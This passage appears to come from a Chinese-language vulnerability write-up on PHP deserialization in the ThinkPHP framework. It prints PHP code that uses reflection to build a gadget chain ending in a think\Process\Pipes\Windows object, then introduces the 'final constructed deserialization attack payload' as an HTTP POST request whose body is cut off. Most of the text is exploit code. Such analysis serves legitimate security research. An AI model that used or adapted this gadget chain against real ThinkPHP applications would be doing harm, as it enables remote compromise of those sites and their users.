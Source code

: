```php
$reflectionProperty_2 = $reflectionClass_2->getProperty('append');
$reflectionProperty_2->setAccessible(true);
$reflectionProperty_2->setValue($c,array('a' => 'getError'));
$reflectionProperty_2_2 = $reflectionClass_2->getProperty('error');
$reflectionProperty_2_2->setAccessible(true);
$reflectionProperty_2_2->setValue($c,$d);
$reflectionProperty_2_3 = $reflectionClass_2->getProperty('parent');
$reflectionProperty_2_3->setAccessible(true);
$reflectionProperty_2_3->setValue($c,$g);


$a = new think\Process\Pipes\Windows(1,0);
$reflectionClass = new ReflectionClass('think\Process\Pipes\Windows');
$reflectionProperty = $reflectionClass->getProperty('files');
$reflectionProperty->setAccessible(true);
$reflectionProperty->setValue($a,[$c]);
var_dump($a);
?>
```

最终构造的反序列化攻击载荷如下：

```http
POST /index.php?s=index/index HTTP/1.1 
Accept-Encoding: gzip, deflate 
Accept: */* 
Accept-Language: en 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 17527 
Cookie: PHPSESSID=test

```
